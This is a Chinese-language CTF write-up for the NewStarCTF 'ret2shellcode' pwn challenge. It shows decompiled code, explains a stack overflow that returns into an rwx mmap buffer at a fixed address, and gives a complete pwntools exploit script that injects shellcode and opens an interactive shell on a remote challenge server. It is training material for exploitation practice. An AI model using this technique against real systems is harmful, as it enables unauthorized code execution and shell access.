 # PWN challenges 一些非常见题型

## [NewStarCTF 公开赛赛道]ret2shellcode

这是一道ret2shellcode的题型，但是通过checksec发现启用`PIE`保护，不能在`.bss`段写入`shellcode`

> <img src="./img_c/1.png">

查看`IDA`反编译信息

```c
int __fastcall main(int argc, const char **argv, const char **envp)
{
  _BYTE v4[40]; // [rsp+0h] [rbp-30h] BYREF
  void *buf; // [rsp+28h] [rbp-8h]

  init(argc, argv, envp);
  buf = mmap((void *)0x233000, 0x1000uLL, 7, 34, -1, 0LL);
  puts("Hello my friend.Any gift for me?");
  read(0, buf, 0x100uLL);
  puts("Anything else?");
  read(0, v4, 0x100uLL);
  puts("Ok.See you!");
  return 0;
}
```

- 第7行`mmap()`创建了一个缓冲区`buf`，大小为`0x1000`字节，重点是拥有`7`，即`rwx`权限

- 第9行向缓冲区`buf`中写入数据，总长度`0x100`字节
- 第11行向缓冲区`v4`写入数据，总长度`0x100`字节

根据`IDA`的分析来说，既然`buf`拥有`rwx`权限，那么我们可以向`buf`中写入`shellcode`，但是不能直接溢出`buf`，因为第一个`read()`限制了写入的数据长度`0x100`，该长度远远小于`buf`允许的最大长度`0x1000`，因此需要利用第二个`read()`，第二个`read()`写入的缓冲区`v4`仅有40字节，完全满足溢出条件

同时，`mmap()`函数也指定了缓冲区的内存地址`0x233000`，这一点也可以在`pwndbg`中验证

> <img src="./img_c/2.png">

然后计算从`v4`到`rbp`的长度

> <img src="./img_c/3.png">

从上图可以得出，从`rsp`到`rbp`共`0x30`个字节，加上`rbp`本身8字节，共需要溢出`0x38`个字节，下面是攻击脚本

```py
from pwn import *

context.arch = 'amd64'

buf_addr = 0x233000
shellcode = asm(shellcraft.amd64.sh())
payload = b'A' * 0x38 + p64(buf_addr)

io = remote('node5.buuoj.cn', 28144)
io.sendline(shellcode)
io.recv()
io.sendline(payload)
io.interactive()
```

运行脚本，得到flag

> <img src="./img_c/4.png">
